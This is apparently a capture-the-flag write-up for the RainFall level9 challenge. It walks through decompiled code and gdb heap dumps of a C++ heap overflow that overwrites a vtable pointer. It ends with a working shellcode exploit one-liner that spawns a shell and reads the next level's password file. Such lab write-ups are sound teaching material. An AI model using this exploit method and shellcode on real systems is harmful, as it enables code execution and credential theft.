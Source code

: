 ## Step 1: Static & Dynamic Analysis

```c
PTR_operator+_08048848                          XREF[1]:     N:080486fc(*)  
        08048848 3a 87 04 08     addr       N::operator+
        0804884c 4e 87 04 08     addr       N::operator-


void __thiscall N::setAnnotation(N *this,char *param_1)
{
  size_t __n;
  
  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}

void __thiscall N::N(N *this,int param_1)
{
  *(undefined ***)this = &PTR_operator+_08048848;
  *(int *)(this + 0x68) = param_1;
  return;
}

void main(int param_1,int param_2)
{
  N *this;
  undefined4 *this_00;
  
  if (param_1 < 2) {
    _exit(1);
  }
  this = (N *)operator.new(0x6c);
  N::N(this,5);
  this_00 = (undefined4 *)operator.new(0x6c);
  N::N((N *)this_00,6);
  N::setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}
```

### Explanation
The binary creates two structures, `this` and `this_00`, and allocates them on the heap, each with a size of `108 bytes`. The first `4 bytes` of each structure store a pointer to a function, and the last `4 bytes` store a value (`5` and `6`). The `setAnnotation()` function copies the content of `argv[1]` into the remaining `100 bytes` of the `this` structure. However, this function does not perform any checks for potential `buffer overflows`.
In the final part of the binary, the function pointer stored in `this_00` is dereferenced to execute an operation involving the values stored in `this` and `this_00`.

```asm
(gdb) info proc map                                                                                                                           
process 3525                                                                                                                                  
Mapped address spaces:                                                                                                                        
                                                                                                                                              
        Start Addr   End Addr       Size     Offset objfile                                                                                   
         0x8048000  0x8049000     0x1000        0x0 /home/user/level9/level9                                                                  
         0x8049000  0x804a000     0x1000        0x0 /home/user/level9/level9                                                                  
         0x804a000  0x806b000    0x21000        0x0 [heap]                                                                                    
        0xb7cfa000 0xb7cfc000     0x2000        0x0                                                                                           
        0xb7cfc000 0xb7d18000    0x1c000        0x0 /lib/i386-linux-gnu/libgcc_s.so.1                                                         
        0xb7d18000 0xb7d19000     0x1000    0x1b000 /lib/i386-linux-gnu/libgcc_s.so.1                                                         
        0xb7d19000 0xb7d1a000     0x1000    0x1c000 /lib/i386-linux-gnu/libgcc_s.so.1                                                         
        0xb7d1a000 0xb7d44000    0x2a000        0x0 /lib/i386-linux-gnu/libm-2.15.so                                                          
        0xb7d44000 0xb7d45000     0x1000    0x29000 /lib/i386-linux-gnu/libm-2.15.so                                                          
        0xb7d45000 0xb7d46000     0x1000    0x2a000 /lib/i386-linux-gnu/libm-2.15.so                                                          
        0xb7d46000 0xb7d47000     0x1000        0x0                                                                                           
        0xb7d47000 0xb7eea000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so                                                          
        0xb7eea000 0xb7eec000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so                                                          
        0xb7eec000 0xb7eed000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so                                                          
        0xb7eed000 0xb7ef0000     0x3000        0x0                                                                                           
        0xb7ef0000 0xb7fc8000    0xd8000        0x0 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16                                               
        0xb7fc8000 0xb7fc9000     0x1000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16                                               
        0xb7fc9000 0xb7fcd000     0x4000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16                                               
        0xb7fcd000 0xb7fce000     0x1000    0xdc000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16                                               
        0xb7fce000 0xb7fd5000     0x7000        0x0                                                                                           
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

```gdb
run "$(python -c 'print("A" * 100)')"
```

```asm
(gdb) x/64wx 0x804a000
0x804a000:      0x00000000      0x00000071      0x08048848      0x41414141
0x804a010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a030:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a040:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a050:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a060:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a070:      0x00000005      0x00000071      0x08048848      0x00000000
0x804a080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0e0:      0x00000006      0x00020f21      0x00000000      0x00000000
0x804a0f0:      0x00000000      0x00000000      0x00000000      0x00000000
```
The heap layout reveals that the two structures are allocated consecutively in memory. Providing input larger than `100 bytes` will result in writing beyond the bounds of this, allowing us to modify the content of `this_00`. This includes overwriting the function pointer stored in the first `4 bytes` of `this_00`.

The program dereferences the function pointer stored in `this_00`, expecting it to point to a valid function. However, instead of directly pointing the overwritten function pointer to the [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) or a specific function, we make it point to an intermediary address (`0x0804a07c`). This intermediary address, in turn, holds the actual address of the shellcode (`0x0804a080`).

This two-level indirection is required because the program dereferences the function pointer once before calling it. If the function pointer in `this_00` were overwritten to directly point to the shellcode, the program would attempt to dereference the shellcode itself, leading to a crash.


## Step 2: Exploiting the Binary
```bash
level9@RainFall:~$ ./level9 $(python -c 'print(("A" * 108) + "\x08\x04\xa0\x7c"[::-1] + "\x08\x04\xa0\x80"[::-1] + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')

% cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
